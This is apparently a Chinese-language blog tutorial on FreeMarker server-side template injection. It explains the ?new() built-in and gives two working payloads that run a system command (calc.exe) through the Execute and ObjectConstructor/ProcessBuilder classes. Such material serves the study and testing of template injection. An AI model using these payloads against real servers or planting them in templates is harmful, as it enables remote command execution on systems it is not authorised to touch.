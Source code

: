 [![img](https://gitee.com/Cralwer/typora-pic/raw/master/images/1344396-20200909230452926-1382441572.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200909230452926-1382441572.png)

**FreeMarker模板代码**：



```
<html>
<head>
  <title>Welcome!</title>
</head>
<body>　<#–这是注释–>
  <h1>Welcome ${user}!</h1>
  <p>Our latest product:
  <a href="${latestProduct.url}">${latestProduct.name}</a>!
</body>
</html>
```

模板文件存放在Web服务器上，就像通常存放静态HTML页面那样。当有人来访问这个页面， FreeMarker将会介入执行，然后动态转换模板，用最新的数据内容替换模板中 ${...} 的部分， 之后将结果发送到访问者的Web浏览器中。

这个模板主要用于 java ，用户可以通过实现 TemplateModel 来用 new 创建任意 Java 对象

具体的高级内置函数定义参考《[Seldom used and expert built-ins](https://freemarker.apache.org/docs/ref_builtins_expert.html)》

[![img](https://gitee.com/Cralwer/typora-pic/raw/master/images/1344396-20200911000148374-491461162.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911000148374-491461162.png)

主要的用法如下：



```
<＃ - 创建一个用户定义的指令，调用类的参数构造函数 - >
<#assign word_wrapp ="com.acmee.freemarker.WordWrapperDirective"?new（）>
<＃ - 创建一个用户定义的指令，用一个数字参数调用构造函数 - >
<#assign word_wrapp_narrow ="com.acmee.freemarker.WordWrapperDirective"?new（40）>
```

调用了构造函数创建了一个对象，那么这个 payload 中就是调用的 freemarker 的内置执行命令的对象 Execute

freemarker.template.utility 里面有个Execute类，这个类会执行它的参数，因此我们可以利用new函数新建一个Execute类，传输我们要执行的命令作为参数，从而构造远程命令执行漏洞。构造payload：



```
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
```

freemarker.template.utility 里面有个ObjectConstructor类，如下图所示，这个类会把它的参数作为名称，构造了一个实例化对象。因此我们可以构造一个可执行命令的对象，从而构造远程命令执行漏洞。



```
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()
```
